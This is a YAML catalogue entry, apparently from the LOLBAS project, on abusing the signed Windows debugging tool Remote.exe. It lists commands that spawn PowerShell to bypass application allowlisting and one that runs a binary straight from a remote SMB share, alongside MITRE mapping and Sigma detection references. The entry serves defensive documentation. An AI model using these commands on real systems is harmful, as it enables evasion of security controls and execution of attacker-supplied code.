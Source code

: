 ```yaml
---
Name: Remote.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 2021-06-01
Commands:
  - Command: Remote.exe /s "powershell.exe" anythinghere
    Description: Spawns powershell as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
    Tags:
      - Execute: EXE
  - Command: Remote.exe /s "powershell.exe" anythinghere
    Description: Spawns powershell as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
    Tags:
      - Execute: EXE
  - Command: Remote.exe /s "\\10.10.10.30\binaries\file.exe" anythinghere
    Description: Run a remote file
    Usecase: Executing a remote binary without saving file to disk
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
    Tags:
      - Execute: EXE
      - Execute: Remote
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\remote.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\remote.exe
Code_Sample:
  - Code:
Detection:
  - IOC: remote.exe process spawns
  - Sigma: https://github.com/SigmaHQ/sigma/blob/197615345b927682ab7ad7fa3c5f5bb2ed911eed/rules/windows/process_creation/proc_creation_win_lolbin_remote.yml
Resources:
  - Link: https://blog.thecybersecuritytutor.com/Exeuction-AWL-Bypass-Remote-exe-LOLBin/
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

